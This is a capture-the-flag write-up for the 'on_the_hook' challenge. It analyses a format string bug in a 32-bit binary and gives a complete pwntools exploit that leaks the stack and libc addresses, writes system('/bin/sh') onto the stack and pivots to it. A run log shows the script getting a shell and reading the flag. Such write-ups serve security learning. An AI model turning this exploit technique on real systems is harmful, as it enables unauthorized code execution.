 ## on_the_hook

> Points: 461
>
> Solves: 22

### Description:
Captain Malloc lost his hook find it and than grab a shell for your effort.

nc ctf.k3rn3l4rmy.com 2201

### Attachments:
```
https://ctf.k3rn3l4rmy.com/kernelctf-distribution-challs/on_the_hook/on_the_hook

https://ctf.k3rn3l4rmy.com/kernelctf-distribution-challs/on_the_hook/libc.so.6
```

## Analysis:

This binary is clearly vulnerable to FSB (Format String Bug). he binary uses a While Loop, so you can use the FSB 5 times.
However, because it is Full Relro, GOT overwrite cannot be performed, and the main function ends with exit (0), so the return address of the main function cannot be changed.


```c
$ ./on_the_hook 
echo:
%p,%p,%p
0x40,0xf7fa65a0,0x8049292     <---- FSB
```

```c
$ checksec on_the_hook
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO         <--- Full Relro
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Below is the decompiled result by Ghidra.
```c
void main(void)

{
  int in_GS_OFFSET;
  EVP_PKEY_CTX *in_stack_ffffffa0;
  int local_58;
  char local_54 [64];
  undefined4 local_14;
  undefined *puStack16;
  
  puStack16 = &stack0x00000004;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  init(in_stack_ffffffa0);
  puts("echo:");
  local_58 = 1;
  while (local_58 < 6) {
    fgets(local_54,0x40,stdin);
    printf(local_54);
    local_58 = local_58 + 1;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}

```

## Solution:

Since Got overlay is not possible, I considered the following two methods, but I used the former method. See the code in `solve_malloc_hook.py` for the latter.
--How to call system (/ bin / sh) by Stack pivot by rewriting the return address of printf
--Initiating a shell by writing One gadget to __malloc_hook

The Exploit code has done the following steps:
(1) Leak the Stack address using FSB to identify the return address
(2) Libc address leak using FSB to identify the address of the system function
(3) Using the ROP gadget of "add esp, 0x100; ret", write the address of the system function to the stack of the address where the return address to the main function is written + 0x104 bytes.
(4) As in (3), write the address of `/bin/sh` to the stack of the address where the return address to the main function is written + 0x10c bytes.
(5) Rewrite the return address that returns from printf to the main function to the address of "add esp, 0x100; ret".

When returning from printf to the main function in the above procedure, system ('/ bin / sh') can be started after "add esp, 0x100; ret".


The address of Stack pivot is obtained below.
```bash
$ ropper -f /lib/i386-linux-gnu/libc-2.23.so --nocolor > rop_l.txt
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

mito@ubuntu:~/CTF/K3RN3LCTF/Pwn_on_the_hook$ grep ": add esp" rop_l.txt 
...
0x00076a71: add esp, 0x100; ret;
...
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='i386')
#context.log_level = 'debug'

BINARY = './on_the_hook'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "ctf.k3rn3l4rmy.com"
  PORT = 2201
  s = remote(HOST, PORT)
  libc = ELF("./libc.so.6")
  stack_pivot = 0x00076991 # add esp, 0x100; ret;  
else:
  s = process(BINARY)
  libc = elf.libc
  stack_pivot = 0x00076a71 # add esp, 0x100; ret; 
  #s = process(BINARY, env={'LD_PRELOAD': './libc.so.6'})
  #libc = ELF("./libc.so.6")
  #stack_pivot = 0x00076991 # add esp, 0x100; ret;  

index = 7

# Lead stack address
s.sendline("%21$p")
s.recvuntil("echo:\n")
stack_leak  = int(s.recvuntil('\n'), 16)
target_addr = stack_leak - 0x118
print("stack_leak  =", hex(stack_leak))
print("target_addr =", hex(target_addr))

# Leak libc address
s.sendline(p32(elf.got.setvbuf) + b"%7$s")
s.recv(4)
setvbuf     = u32(s.recv(4))
libc_base   = setvbuf - libc.sym.setvbuf
system_addr = libc_base + libc.sym.system
binsh_addr  = libc_base + next(libc.search(b'/bin/sh'))

print("setvbuf     =", hex(setvbuf))
print("libc_base   =", hex(libc_base))

# Write system address in stack
writes = {target_addr + 0x104: system_addr}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

# Write /bin/sh address in stack
writes = {target_addr + 0x10c: binsh_addr}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

# Stack pivot(add esp, 0x100; ret;) and Start /bin/sh
writes = {target_addr: libc_base + stack_pivot}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

s.interactive()

```

## Results:
```bash
mito@ubuntu:~/CTF/K3RN3LCTF/Pwn_on_the_hook$ python3 solve_stack_pivot.py r
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2201: Done
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
solve.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.sendline("%21$p")
solve.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.recvuntil("echo:\n")
solve.py:23: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  stack_leak  = int(s.recvuntil('\n'), 16)
stack_leak  = 0xff825894
target_addr = 0xff82577c
setvbuf     = 0xf7e24360
libc_base   = 0xf7dc4000
[*] Paused (press any to continue)
[*] Switching to interactive mode
...
$ id
uid=1000 gid=1000 groups=1000
$ ls -l
total 1920
-rw-rw-r-- 1 nobody nogroup      46 Nov 11 02:58 flag.txt
-rwxrwxr-x 1 nobody nogroup  147688 Nov 11 02:58 ld-2.23.so
-rwxrwxr-x 1 nobody nogroup 1786484 Nov 11 02:58 libc.so.6
-rwxrwxr-x 1 nobody nogroup   19672 Nov 11 22:59 run
$ cat flag.txt
flag{m4l1oc_h0ok_4nd_0n3_g4d9et_3a5y_a5_7h4t}

```

## Reference:

